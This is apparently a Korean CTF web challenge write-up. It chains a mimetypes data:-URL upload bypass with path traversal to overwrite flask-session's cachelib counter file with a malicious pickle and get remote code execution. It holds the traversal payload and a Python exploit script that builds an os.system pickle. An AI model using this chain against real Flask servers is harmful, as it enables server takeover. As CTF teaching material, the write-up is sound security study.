 파일 업로드에서 mimetypes.guess_type()이 'image/png', 'image/jpeg'가 되어야 해서 임의의 확장자를 올릴 수 있다.

mimetypes에서는 path가 아니라 url로 처리하기 때문에 data:// 형식도 파싱한다.

```py
if scheme == 'data':
    comma = url.find(',')
    if comma < 0:
        # bad data URL
        return None, None
    semi = url.find(';', 0, comma)
    if semi >= 0:
        type = url[:semi]
    else:
        type = url[:comma]
    if '=' in type or '/' not in type:
        type = 'text/plain'
    return type, None
```

`if not full_folder.startswith(base_path):` 검증은 filename에서 path traversal을 해서 우회할 수 있다.

Payload : `data:image/jpeg,;/../../../../../app/flask_session/2029240f6d1128be89ddc32729463129`


[flask-session](https://github.com/pallets-eco/flask-session) -> Filesystem -> cachelib -> pickle 사용

pickle deserialization -> rce가 가능하다.

[CA CTF 2022: Exploiting Zip Slip and Pickle Deserialization - Acnologia Portal](https://www.hackthebox.com/blog/acnologia-portal-ca-ctf-2022-web-writeup)

캐시가 저장될 때 `md5(sid)`에 저장한다.

<br>

그러나 `SESSION_KEY_PREFIX = os.urandom(32).hex()`를 설정해서 파일명을 알 수 없다.

```py
_fs_count_file = "__wz_cache_count"
```

cachelib에는 파일 카운터가 존재하고, 이 값은 `md5("__wz_cache_count")`에 저장된다.

고정된 파일명을 사용하기 때문에 pickle로 rce할 수 있다.

Exploit

```py
import requests as req
import base64
import pickle
import struct

url = 'http://127.0.0.1:8000'

cookies = {'session': 'LbBrUxgxNI322Y0ePBBWW14fDr7mDbyL42Q0J216mUQ'}

with req.Session() as r:
    r.cookies.update(cookies)
    res = r.post(f'{url}/api/files/upload', data={'folder': '', 'filename': 'data:image/jpeg,;/../../../../../../', 'content':base64.b64encode(b'dummy')})
    uuid = res.json()['message'].split('/')[3]
    
    class RCE:
        def __reduce__(self):
            cmd = (f'__import__("os").system("/getflag > /app/user_files/{uuid}/hi")')
            return eval, (cmd,)

    payload = struct.pack("I", 0000) + pickle.dumps(RCE())
    print(payload)
```